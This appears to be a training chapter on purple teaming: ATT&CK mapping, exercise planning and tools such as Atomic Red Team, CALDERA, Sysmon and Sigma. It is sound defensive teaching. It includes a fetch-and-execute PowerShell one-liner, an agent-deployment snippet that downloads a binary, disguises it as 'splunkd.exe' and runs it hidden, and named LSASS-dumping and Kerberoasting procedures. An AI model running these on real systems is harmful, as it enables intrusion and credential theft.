






This is Chapter 1 of the Purple Team notebook, and it sits deliberately at a hinge point in the whole series. The offensive notebooks taught you how to break in — recon, exploitation, privilege escalation, Active Directory abuse, C2, evasion. The defensive notebooks taught you how to watch, hunt, and respond — SOC operations, detection engineering, DFIR, threat intelligence. Purple teaming is the discipline that puts those two halves in the same room, points them at the same attack, and asks a single blunt question: **when the red side does X, does the blue side actually see it?** Everything in this notebook is built around answering that question honestly, repeatably, and with numbers.

A framing note that governs this notebook exactly as it governed the offensive ones. Everything here assumes **explicit, written authorization** and a lawful, scoped engagement against systems the organization owns or is contractually permitted to test. Purple teaming is offense performed in the open, with the defenders watching and participating, for the sole purpose of making detection and response better. That transparency is the point — there is no "gotcha," no secret. The offensive techniques described are the same ones covered earlier in the series; here they are executed as controlled, announced tests inside a lab or an authorized exercise window, with the explicit goal of improving the blue team's coverage. Running any of this against systems you do not own or lack signed authorization to test is a crime regardless of intent.

We build from the definition and the reason purple teaming exists, through the four-color spectrum and where purple fits, the collaborative operating model and who does what, MITRE ATT&CK as the common vocabulary, the core detect-emulate-tune feedback loop, how a purple team exercise is planned as a set of testable hypotheses, the toolchain taught from zero, a fully worked hands-on emulation lab against a Windows/Linux target with real commands and the output you'd actually see, the metrics that turn "we tested some stuff" into a defensible coverage number, models for continuous and automated purple teaming, a consolidated detection-and-defense section, common pitfalls, a final revision recap, a cheat sheet, and topic-specific practice resources.

## Why This Matters

Most organizations discover the gap between "we have a security tool" and "that tool would have caught the breach" only after the breach. A company can own a top-tier EDR, a SIEM ingesting terabytes a day, and a full SOC, and still miss a technique as old and well-documented as LSASS credential dumping — because nobody ever fired that exact technique on that exact host configuration and confirmed an alert fired, was routed to an analyst, and was actioned. Buying detection is not the same as having detection.

Red teaming, done in the classic covert style, is superb at proving *a* path to the objective exists, but it is a poor instrument for *systematically* measuring coverage. A red team that stays quiet and wins tells you that you were beaten; it does not tell you which of your 300 detection rules work and which are dead. Blue teams, conversely, write detections against theoretical descriptions of techniques and rarely get to see those techniques executed live against their own telemetry, so they cannot know whether a rule is precise, noisy, or silently broken by a log-source outage.

Purple teaming closes that loop directly. Instead of one side trying to beat the other, both sides run a technique **together**: the red operator executes an ATT&CK technique on a target while the blue analyst watches the telemetry in real time, and the two of them determine — on the spot — whether it was logged, whether it alerted, how long detection took, and what would make the detection better. The output is not "we got domain admin." The output is a concrete, per-technique scorecard: *detected / logged-but-not-alerted / not-logged*, plus a prioritized list of the exact log sources, Sysmon config changes, and Sigma rules needed to close each gap. That is a fundamentally more useful artifact for a defender, and it is why mature security programs increasingly run purple exercises continuously rather than treating red teaming as an annual event.

## Part 1: What Purple Teaming Actually Is

Purple teaming is a **collaborative security assessment in which offensive operators execute known adversary techniques while defensive personnel observe the resulting telemetry, so that both sides can measure and iteratively improve detection and response coverage against those techniques.** The name is the mix of red and blue, and the whole idea is that the value is in the *blend*, not in a separate standing "purple team."

That last point causes endless confusion, so state it plainly: **purple is a function, not (usually) a team.** In most organizations there is no permanent purple team the way there is a SOC or a red team. Purple teaming is an *activity* — a mode of working — that a red team and a blue team enter together for the duration of an exercise. Some large organizations do stand up a small dedicated purple team whose job is to facilitate these exercises and own the emulation tooling, but even then that team's role is to orchestrate collaboration between offense and defense, not to replace either.

Three properties distinguish a purple engagement from an ordinary red-team engagement:

- **Transparency.** The blue team knows exactly what is being run and when. There is no attempt to stay hidden. The red operator often narrates: "I'm about to run Rubeus for a Kerberoast against the SQL service account — watch for the TGS request." This is the opposite of covert red teaming and is the single biggest cultural shift for red operators.
- **Collaboration over competition.** Success is not "the red team won" or "the blue team caught everything." Success is *the coverage map improved*. A technique that was invisible at the start of the day and reliably alerts by the end of the day is a win for the purple engagement even though, in a competitive framing, it means the "attacker" got caught.
- **Measurement.** Every technique executed is tracked against a known catalog (almost always MITRE ATT&CK) and scored: was it detected, was it merely logged, was it invisible, how long did detection take, was the alert precise or drowned in false positives. That scoring is the deliverable.

**Red team usage:** for offensive operators, purple work is where your tradecraft gets *validated against real telemetry* rather than assumed. You learn precisely which of your evasion techniques defeat the client's specific EDR configuration and which light up like a Christmas tree — knowledge that makes your covert engagements sharper.

**Blue team usage:** for defenders, a purple exercise is the only reliable way to test a detection rule end-to-end — from the log source producing the event, through the pipeline parsing it, to the SIEM correlation firing, to the alert reaching an analyst — using the actual attack that rule is supposed to catch, on your actual infrastructure.

## Part 2: The Spectrum — Pentest, Red Team, Blue Team, Purple Team

To place purple teaming correctly you need the whole spectrum in view, because the four terms are routinely misused. They differ along a few axes: **objective, stealth, scope, duration, and primary deliverable.**

| Engagement | Primary question answered | Stealth | Scope | Typical duration | Primary deliverable |
| --- | --- | --- | --- | --- | --- |
| **Vulnerability assessment** | What known weaknesses exist? | None | Broad, shallow | Days | Prioritized vuln list |
| **Penetration test** | Can these specific weaknesses be exploited to a defined depth? | Low–medium | Defined systems/app | 1–2 weeks | Findings + remediation |
| **Red team** | Can an adversary achieve a business objective against a defended environment? | High (covert) | Objective-driven, whole org | Weeks–months | Attack narrative + resilience gaps |
| **Blue team** | Can we detect, investigate, and respond to attacks? | N/A (defensive) | The environment | Continuous | Detections, response, coverage |
| **Purple team** | For a given technique, do our detections actually work — and how do we improve them? | None (transparent) | Technique-driven, focused | Hours–days per cycle | Per-technique coverage scorecard + tuned detections |

A few things fall out of that table:

- **Purple is technique-driven, not objective-driven.** A red team picks an objective ("obtain the CFO's mailbox") and finds *any* path. A purple team picks *techniques* ("T1003.001 LSASS dumping, T1558.003 Kerberoasting, T1021.001 RDP lateral movement") and tests each one deliberately and in isolation, so the result is attributable to a specific detection rather than tangled up in a long chain.
- **Stealth is inverted.** Red teams optimize for *not being seen*; purple teams optimize for *being seen clearly enough to measure*. A red operator who evades detection on a purple exercise has, paradoxically, produced a worse result — because now you cannot tell whether the technique is genuinely undetectable or whether the operator simply muddied the test.
- **Duration and cost are much lower per cycle.** A full covert red team is expensive and infrequent. A purple "micro-emulation" of five techniques can run in an afternoon, which is why purple teaming scales to a continuous cadence.



The diagram makes the central claim visual: purple teaming is the *junction* where the offensive lineage (VA to pentest to red team) and the defensive lineage (blue team) meet and produce something neither can produce alone — a measured, improving coverage posture that then feeds *both* parents.

## Part 3: The Purple Team Operating Model & Roles

A purple exercise has a small number of clearly defined roles. In a big organization these are different people; in a small one, one person may wear several hats, but the *functions* still all need to happen.

- **Red operator(s) / emulation lead.** Executes the techniques. Responsible for running each technique cleanly, one at a time, in a way that maps to a known ATT&CK ID, and for recording exactly what was run (command line, host, time, account). On a mature exercise the operator narrates each action aloud or in a shared channel.
- **Blue analyst(s) / detection lead.** Watches the telemetry — EDR console, SIEM, raw logs — and calls out in real time what they see (or don't). Responsible for confirming whether each technique produced a log event, an alert, or nothing, and for capturing the exact event IDs and fields observed.
- **Purple lead / facilitator / exercise coordinator.** Owns the plan, keeps the pace, ensures each technique is scored before moving on, resolves disputes ("was that alert really triggered by *this* technique or the previous one?"), and owns the final scorecard. Often also owns the emulation tooling (CALDERA, Atomic Red Team, VECTR).
- **Environment / IT owner.** Provides and can restore the target systems, ensures the exercise stays inside scope, and can pull the plug if something threatens production.
- **Threat intelligence (on threat-led exercises).** Supplies the adversary profile the emulation is based on — e.g. "emulate FIN7's initial-access-to-collection chain" — so the techniques chosen reflect a real threat to the organization rather than an arbitrary list.

The interaction is a tight, per-technique loop rather than a long campaign. For each technique in the plan:



The re-run step (the `alt` block) is the heart of purple teaming and the thing that distinguishes it from a mere "detection test." You do not just record "not detected" and move on. You *fix it in the room* — write or tune the detection, then immediately re-fire the technique to confirm the fix works. That immediate validation is what makes the coverage improvement real rather than a to-do item that rots in a backlog.

**A cultural note that matters more than any tool.** Purple teaming lives or dies on the relationship between red and blue. If red operators treat "you didn't catch me" as a scoreboard, blue analysts get defensive and stop surfacing their real gaps, and the whole exercise degrades into theater. The facilitator's most important job is keeping the framing collaborative: every gap found is a *shared win*, and the red operator's job is to help the blue analyst build a detection, not to gloat about evading it.

## Part 4: MITRE ATT&CK as the Shared Language

Purple teaming needs a common vocabulary so that "the attack" and "the detection" refer to the same thing unambiguously. That vocabulary is almost universally **MITRE ATT&CK**. You met ATT&CK in the security-foundations and blue-team notebooks; here it becomes the literal indexing scheme for the entire exercise, so it's worth restating precisely.

**What ATT&CK is, from scratch.** MITRE ATT&CK (Adversarial Tactics, Techniques, and Common Knowledge) is a free, curated knowledge base of real-world adversary behavior, maintained by MITRE. It is structured as a matrix:

- **Tactics** — the adversary's *goal* at a stage of the attack, e.g. Initial Access, Execution, Persistence, Credential Access, Lateral Movement, Exfiltration. These are the *columns* of the matrix. There are 14 in the Enterprise matrix.
- **Techniques** — *how* a goal is achieved, e.g. `T1059 Command and Scripting Interpreter`, `T1003 OS Credential Dumping`. These live under tactics.
- **Sub-techniques** — more specific variants, e.g. `T1059.001 PowerShell`, `T1003.001 LSASS Memory`, `T1003.002 Security Account Manager`.
- **Procedures** — the concrete real-world implementations of a technique by specific threat groups, e.g. "APT29 used `rundll32.exe` to execute...".

The reason ATT&CK is the backbone of purple teaming is that it gives every technique a **stable ID** (`T1003.001`) that both the offensive tooling and the detection tooling can reference. The red operator runs `T1003.001`; the Sigma rule is tagged `attack.t1003.001`; the coverage tracker scores `T1003.001`; the ATT&CK Navigator heatmap colors the `T1003.001` cell green. Everyone is talking about the same box.

| ATT&CK layer | Example | Role in a purple exercise |
| --- | --- | --- |
| Tactic | `TA0006` Credential Access | Groups techniques by adversary goal; structures the plan |
| Technique | `T1003` OS Credential Dumping | The thing you test and score |
| Sub-technique | `T1003.001` LSASS Memory | The precise variant you execute (matters — detections differ per variant) |
| Procedure | "dump lsass.exe with `comsvcs.dll MiniDump`" | The exact command the red operator runs |
| Data source / component | `Process: OS API Execution`, `Process Access` | What telemetry *should* reveal it — the blue analyst's checklist |

That last row is critical and often overlooked. Each ATT&CK technique page lists **data sources and detections** — the telemetry that would reveal it. For `T1003.001` that includes process access to `lsass.exe` (Sysmon Event ID 10), sensitive-process handle requests, and access to the SAM/LSA. Before an exercise, the blue analyst uses those listed data sources as a *pre-flight checklist*: "to detect this technique I need Sysmon Event ID 10 with the right config, and I need to confirm it's actually reaching the SIEM." Half of all purple-exercise gaps turn out to be **missing or misconfigured log sources**, not missing rules — and ATT&CK's data-source mapping is what makes that diagnosis fast.

The **ATT&CK Navigator** is the free web tool (also self-hostable) that renders the matrix as an interactive heatmap. During and after a purple exercise you color each tested technique — green for detected, yellow for logged-but-not-alerting, red for invisible — producing a single at-a-glance coverage map that executives and engineers alike can read. We use it in the lab below.

## Part 5: The Detect–Emulate–Tune Feedback Loop

Strip purple teaming down to its engine and you get a three-beat loop that repeats for every technique: **emulate, detect, tune.** Understanding this loop deeply is more important than memorizing any tool, because every tool in Part 7 exists only to make one beat of this loop faster.

1. **Emulate** — reproduce an adversary technique in a controlled, attributable way. "Attributable" means you can point to exactly what you ran and tie it to an ATT&CK ID. This is where Atomic Red Team and CALDERA live.
2. **Detect** — determine what the defensive stack saw. This spans three distinct outcomes that must not be collapsed into "detected / not detected":
   - **Alerted** — an analyst-facing alert fired. Best case.
   - **Logged (visibility) but not alerted** — the raw telemetry exists (e.g. Sysmon logged the process creation) but no rule turned it into an alert. This is a *rule* gap, cheap to fix.
   - **Not logged (no visibility)** — the telemetry needed to see the technique isn't being collected at all. This is a *log-source/instrumentation* gap, and it must be fixed first because no rule can detect what was never recorded.
3. **Tune** — close the gap and *re-validate immediately*. Depending on the outcome above, tuning means writing a new detection (Sigma/EDR rule), fixing a log source (deploy/repair Sysmon, enable an audit policy, fix a broken log-forwarding pipeline), or reducing false positives on a rule that fired but was too noisy to be useful. Then re-run the technique to prove the fix.



The state machine encodes a discipline that beginners consistently get wrong: **you cannot skip from "no visibility" straight to writing a rule.** If Sysmon isn't logging process access, there is no event for your beautiful Sigma rule to match. Diagnose the layer of the gap first — instrumentation, then rule, then quality — and fix in that order. A purple program that produces "we need 40 new detection rules" without noticing that 15 of those techniques were invisible for lack of a log source has misdiagnosed its own problem.

**One technique at a time.** The loop assumes isolation. If the red operator fires five techniques in a rush and *then* the blue analyst looks, you cannot attribute a given alert to a given technique — the whole point of scoring per-`Txxxx` collapses. Purple discipline is: announce, fire one, score it, then the next. Speed comes from the tooling, not from batching untracked activity.

### 5.1 The three failure modes the loop is designed to catch

Each beat of the loop exists to expose a specific class of silent failure that other assessment types miss:

- **The phantom control.** A tool is deployed and assumed to work, but the technique it "covers" was never actually fired at it. The *emulate* beat kills this by executing the real technique rather than trusting a datasheet.
- **The broken pipeline.** Telemetry that used to flow stopped — a forwarder died, an agent fell off, an audit policy was reverted by a GPO change — and no one noticed because nothing alerts on the *absence* of logs. The *detect* beat's visibility check catches this the moment a technique that should be logged comes back invisible.
- **The brittle rule.** A detection exists and even fires in a demo, but keys on a fragile artifact (a filename, a hash, one procedure) that any competent attacker sidesteps. The *tune* beat's variant-testing and behavioral-detection preference hardens this into something that survives real evasion.

A useful way to hold this in your head: covert red teaming answers *"can we be beaten?"* (almost always yes), vulnerability scanning answers *"what's unpatched?"*, and purple teaming answers the question that actually predicts incident outcomes — *"when the attack runs, does our detection-and-response machine actually engage?"* The three failure modes above are exactly the places that machine silently fails, and the loop is a systematic sweep for each.

## Part 6: Planning a Purple Team Exercise

A purple exercise is only as good as its plan, and a good plan is a **set of testable hypotheses**, each phrased so the outcome is unambiguous. The planning process has a repeatable shape.

**Step 1 — Choose the scope and the driver.** There are three common ways to choose which techniques to test:

- **Threat-intelligence-led.** Pick a threat actor that realistically targets your sector (from your CTI notebook work — e.g. FIN7 for retail/hospitality, APT29 for government), pull their known techniques from ATT&CK, and emulate that actor's chain. This is the gold standard because it tests against *your* actual threat model.
- **Coverage-gap-led.** Look at your current ATT&CK Navigator coverage map, find the reddest columns (say, Credential Access and Lateral Movement are unmeasured), and target those.
- **Control-validation-led.** You just deployed a new EDR or wrote 20 new Sigma rules; run the exact techniques those controls claim to cover to prove they work.

**Step 2 — Turn each technique into a hypothesis.** A purple test case is written as a falsifiable statement plus its evidence criteria. For example:

> **Hypothesis:** "If an adversary dumps LSASS with `comsvcs.dll MiniDump` (T1003.001) on a workstation, our EDR will generate a high-severity alert within 5 minutes, and Sysmon Event ID 10 with `TargetImage` = `lsass.exe` and a `GrantedAccess` of `0x1410`/`0x1010` will be present in the SIEM."

That single sentence tells the red operator exactly what to run, tells the blue analyst exactly what to look for, and defines "pass" precisely. Vague test cases ("test credential dumping") produce vague, unscoreable results.

**Step 3 — Define the environment and safety rails.** Where does this run — an isolated lab, a staging replica, or (carefully) production during a change window? What is explicitly out of scope? Who can halt the exercise? For destructive-tending techniques (ransomware behavior, `T1486` data-encryption emulation) you use *simulated* or *lab-only* variants — never real encryption of real data. Atomic Red Team tests, for instance, are designed to be minimal and reversible, and each ships a cleanup command.

**Step 4 — Prepare the scorecard.** Set up the tracking artifact (VECTR, or at minimum a spreadsheet) with a row per technique and columns for: ATT&CK ID, procedure/command, host, time executed, log source present (Y/N), alert fired (Y/N), time-to-detect, detection quality, and the follow-up action. This is filled in live.

Here is a compact sample plan for a focused half-day credential-access + lateral-movement exercise:

| # | ATT&CK ID | Technique | Procedure to run | Expected data source | Pass criterion |
| --- | --- | --- | --- | --- | --- |
| 1 | T1059.001 | PowerShell execution | Encoded `-enc` payload spawning `powershell.exe` | Sysmon 1, 4104 script-block | Alert on encoded command |
| 2 | T1003.001 | LSASS dump | `comsvcs.dll MiniDump` on lsass PID | Sysmon 10 (process access) | High-sev EDR alert < 5 min |
| 3 | T1558.003 | Kerberoasting | `Rubeus kerberoast` for SPN accounts | Security 4769 (TGS req) | Alert on abnormal TGS/RC4 |
| 4 | T1021.001 | RDP lateral movement | `mstsc` / `xfreerdp` to a second host | Security 4624 type 10 | Logon anomaly correlation |
| 5 | T1053.005 | Scheduled task persistence | `schtasks /create` | Security 4698, Sysmon 1 | Alert on task creation |

Notice every row is *specific*: an ID, a real procedure, the exact log source the blue side should check, and an unambiguous pass line. That table *is* the exercise.

## Part 7: The Toolchain, Taught From Scratch

Purple teaming has a small, well-established open-source toolchain. This section teaches each tool from zero — what it is, why it exists, how to install it, and its core workflow — before the lab uses them. If you already know a tool from an earlier notebook, skim to its purple-specific usage.

### 7.1 Atomic Red Team — the emulation "unit tests"

**What it is.** Atomic Red Team (by Red Canary) is an open-source library of small, self-contained tests — "atomics" — each mapped to a single ATT&CK technique. An atomic is the smallest possible reproducible execution of a technique: one command (or a few), designed to produce exactly the telemetry that technique generates, with a defined cleanup step. Think of atomics as *unit tests for detections*.

**Why it exists.** Writing a bespoke exploit just to test whether your Sysmon config catches process injection is wasteful. Atomic Red Team gives you a curated, community-maintained, minimal test per technique so you can fire `T1003.001` in one line and immediately check your telemetry, without building tooling.

**Install (on the target you're testing, in a lab).** It's driven through a PowerShell module called `Invoke-Atomic`:

```powershell
# Install the execution framework (Windows target, PowerShell 5+)
IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing)
Install-AtomicRedTeam -getAtomics -Force
Import-Module "C:\AtomicRedTeam\invoke-atomicredteam\Invoke-AtomicRedTeam.psd1" -Force
```

**Core workflow.** List, inspect, check prerequisites, run, then clean up:

```powershell
# Show all atomic tests defined for a technique
Invoke-AtomicTest T1003.001 -ShowDetailsBrief

# Inspect a specific test's exact commands before running it
Invoke-AtomicTest T1003.001 -TestNumbers 1 -ShowDetails

# Ensure prerequisites (downloads tools the test needs, e.g. procdump)
Invoke-AtomicTest T1003.001 -TestNumbers 1 -GetPrereqs

# Execute the test
Invoke-AtomicTest T1003.001 -TestNumbers 1

# Clean up afterwards (removes artifacts the test created)
Invoke-AtomicTest T1003.001 -TestNumbers 1 -Cleanup
```

The `-ShowDetails` step is not optional in a professional exercise: you always read exactly what a test will do before you run it, because you are running code with intent on a monitored system and you must be able to attribute every resulting event.

### 7.2 CALDERA — automated adversary emulation

**What it is.** MITRE CALDERA is an open-source adversary-emulation platform. Where Atomic Red Team fires individual techniques manually, CALDERA chains techniques into **operations** run by autonomous **agents** against target hosts, driven by an ATT&CK-mapped **ability** library and orchestrated from a server with a web UI and REST API.

**Why it exists.** To emulate a *whole adversary chain* — initial access to discovery to credential access to lateral movement — automatically and repeatably, so you can run the same campaign every week and watch your coverage improve over time. It scales purple teaming from "a human types commands" to "a scheduled operation runs the FIN7 profile."

**Architecture, from scratch.**
- **Server (the C2 / controller)** — runs on Linux, hosts the web UI (default `https://<host>:8888`), the ability database, and the operation planner.
- **Agents** — lightweight implants (the default is `Sandcat`, a Go binary) that you deploy to target hosts; they beacon back to the server for instructions, exactly like a benign C2.
- **Abilities** — individual ATT&CK-mapped actions (each an ID, a command, a platform, and a parser for the output). Grouped into **adversary profiles** (ordered ability sets emulating a specific actor or scenario).
- **Operations** — a run of a profile by agents, with a chosen planner (e.g. run abilities in order, or "atomic" one-at-a-time) and settings for jitter, obfuscation, and autonomy.

**Install (server, on a Linux emulation host in the lab):**

```bash
# Clone with plugins, then start the server
git clone https://github.com/mitre/caldera.git --recursive
cd caldera
python3 -m pip install -r requirements.txt --break-system-packages
python3 server.py --insecure --build
# Web UI now at http://0.0.0.0:8888  (default creds printed in conf/local.yml: red / <password>)
```

**Deploy an agent to a Windows target (from an elevated PowerShell on the target, pointing at the server):**

```powershell
$server="http://192.168.56.10:8888";
$url="$server/file/download";
$wc=New-Object System.Net.WebClient;
$wc.Headers.add("platform","windows");
$wc.Headers.add("file","sandcat.go");
$data=$wc.DownloadData($url);
[io.file]::WriteAllBytes("C:\Users\Public\splunkd.exe",$data) | Out-Null;
Start-Process -FilePath C:\Users\Public\splunkd.exe -ArgumentList "-server $server -group red" -WindowStyle hidden;
```

That agent now appears in the CALDERA UI, and you can launch an operation using a built-in profile such as **"Discovery"** or **"Hunter,"** or a custom threat-intel-led profile you assembled from abilities. Every ability CALDERA runs is stamped with its ATT&CK ID, so the operation log *is* a purple scorecard skeleton.

### 7.3 Sysmon — the visibility foundation

**What it is.** System Monitor (Sysmon), part of Microsoft's Sysinternals suite, is a Windows system service and driver that logs high-value security events to the Windows event log far beyond what Windows records by default: process creation with full command line and hashes (Event ID 1), network connections (3), **process access** (10 — the LSASS-dumping detector), image/driver loads (7/6), file creation (11), registry changes (12–14), named pipes (17/18), WMI events (19–21), and more.

**Why it matters for purple.** Sysmon is, in practice, *the* thing that turns "not logged" into "logged" for a huge fraction of endpoint techniques. Most purple-exercise visibility gaps on Windows are fixed by deploying or improving a Sysmon configuration. You do not write endpoint detections against raw Windows without it — the default Windows logs are too sparse.

**Install with a good config (the community `sysmon-modular` or SwiftOnSecurity config):**

```powershell
# Download Sysmon and a curated config, then install
Invoke-WebRequest https://download.sysinternals.com/files/Sysmon.zip -OutFile Sysmon.zip
Expand-Archive Sysmon.zip -DestinationPath C:\Sysmon
Invoke-WebRequest https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml -OutFile C:\Sysmon\config.xml
C:\Sysmon\Sysmon64.exe -accepteula -i C:\Sysmon\config.xml

# Later, update the running config without reinstalling:
C:\Sysmon\Sysmon64.exe -c C:\Sysmon\config.xml
```

Sysmon events land in `Microsoft-Windows-Sysmon/Operational`. The single most important config decision for credential-access coverage is ensuring **Event ID 10 (ProcessAccess)** is enabled for `lsass.exe` targets — many default configs suppress it because it's noisy, which silently blinds you to the most common credential-theft technique.

### 7.4 Sigma — portable detection rules

**What it is.** Sigma is an open, generic signature format for SIEM detection logic — "the YARA of log files." You write a detection once in Sigma's YAML syntax, then *convert* it to your specific SIEM's query language (Splunk SPL, Microsoft Sentinel KQL, Elastic, etc.) with the `sigma` CLI (`sigma convert`, formerly `sigmac`). It decouples detection logic from vendor query dialects.

**Why it matters for purple.** During the tune step you write detections. Writing them in Sigma means the rule is portable, version-controllable, ATT&CK-tagged, and shareable with the community — and the public SigmaHQ ruleset gives you a huge head start (many techniques already have a community rule you can deploy and test).

**Install and use:**

```bash
pip install sigma-cli --break-system-packages
# Convert a rule to Splunk SPL
sigma convert -t splunk ./rules/windows/process_access/proc_access_win_lsass_dump.yml
```

A Sigma rule detecting LSASS access via a suspicious handle looks like this:

```yaml
title: LSASS Memory Access via Suspicious GrantedAccess
id: 2f0b4b1e-1a2b-4c3d-9e8f-abc123def456
status: experimental
description: Detects process access to lsass.exe with access masks used for credential dumping
references:
    - https://attack.mitre.org/techniques/T1003/001/
tags:
    - attack.credential_access
    - attack.t1003.001
logsource:
    product: windows
    service: sysmon
detection:
    selection:
        EventID: 10
        TargetImage|endswith: '\lsass.exe'
        GrantedAccess:
            - '0x1010'
            - '0x1410'
            - '0x143a'
    filter_legit:
        SourceImage|endswith:
            - '\wininit.exe'
            - '\csrss.exe'
    condition: selection and not filter_legit
falsepositives:
    - Some legitimate AV/EDR products access lsass
level: high
```

### 7.5 VECTR — the purple exercise tracker

